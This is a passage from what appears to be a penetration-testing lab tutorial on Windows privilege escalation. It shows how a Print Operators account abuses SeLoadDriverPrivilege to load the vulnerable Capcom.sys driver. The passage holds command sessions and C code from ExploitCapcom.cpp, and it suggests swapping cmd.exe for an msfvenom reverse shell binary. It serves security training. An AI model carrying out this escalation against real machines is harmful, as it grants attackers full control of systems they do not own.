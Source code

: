 ```cmd-session
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

#### Verify Capcom Driver is Listed

Next, verify that the Capcom driver is now listed.

Print Operators

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

###$ No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

Code: c

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
